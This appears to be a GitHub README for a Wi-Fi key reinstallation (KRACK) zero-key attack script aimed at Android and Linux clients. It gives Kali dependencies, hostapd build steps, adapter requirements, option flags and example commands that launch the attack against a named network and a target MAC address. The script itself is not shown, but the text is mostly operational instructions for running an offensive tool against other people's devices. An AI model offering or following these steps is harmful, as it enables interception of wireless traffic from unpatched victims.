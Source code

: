 # Key reinstallation attack against Android and Linux devices

## DIPENDANCIES:
This script must be run in Kali Linux, ensure that all the dependancies are installed 
```bash
apt-get update and pip update 
apt-get install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome
pip install docopt
```
To compile hostapd, navigate to the hostapd directory
``` bash
cp defconfig .config
make -j 2
```
May need to disable hardware encryption
used --disable-hw to do so, then reboot to take effect

All the files to run the exploit are located in the folder "krackattack"
krack-zero-key.py is the main script
libclass.py is a class library for the main script

## RUNNING THE SCRIPT:

USE:
-h or --help
This will print the help message and usage parameters
requires 2 interfaces, both need to be compatible with Kali and be able to run in monitor mode.
The interfaces used in testing are:

	TP-Link WN722N
	ArrisGro wireless adapter with a Ralink chipset

Note: Some adapters may not detect when a frame is injected despite checks, this can cause a feedback loop in the script. Move the interface's further appart from each other (<1 meter), or swape their roles in the script

Note: If error Too many files open in system occours, run with -r option to reset
the interface configuration. If the error still persists, then run the script without --target

OPTIONS:
```bash
-k - This will run the key reinstalltion attack
-r - Cleans up configuration done by the script, useful in the event of a crash
-v - Gives verbose output, this shows the pink debug message
--vv - Gives loads of verbose output - WARNING - shows all frames send and recived, including beacons
--target - it's reccomended to use a specific target device (Mac address), if two devices connect without a target then the 			attack might not complete
--disable-hw - to disable hardware encryption, it might interfere with the script
```
##EXAMPLE:
Launches the attack:
```bash
python krack-zero-key.py -k wlan0 wlan1 eduroam --target ff:ff:ff:ff:ff:ff 
```
Cleans up (the interfaces must be entered in the same order as when the script was last run):
```bash
python krack-zero-key.py -r wlan0 wlan1
```
